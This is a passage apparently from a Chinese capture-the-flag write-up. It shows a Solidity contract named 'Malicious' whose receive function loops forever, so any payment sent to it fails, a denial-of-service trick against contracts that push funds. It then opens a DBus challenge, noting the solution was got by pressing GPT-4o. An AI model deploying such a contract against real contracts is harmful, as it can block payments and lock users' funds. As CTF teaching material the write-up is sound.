 <img src="images/dad83c1e-9866-4815-b3d1-ebe175db12a6.png" alt="image-20241109184253252" style="zoom:50%;" />

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        while (true) {}
    }
}
```

## 不太分布式的软总线

这一题同样是通过拷打GPT-4o出的。不过相比于前一题，需要一些理解并且思考一下提问方式。

### What DBus Gonna Do?
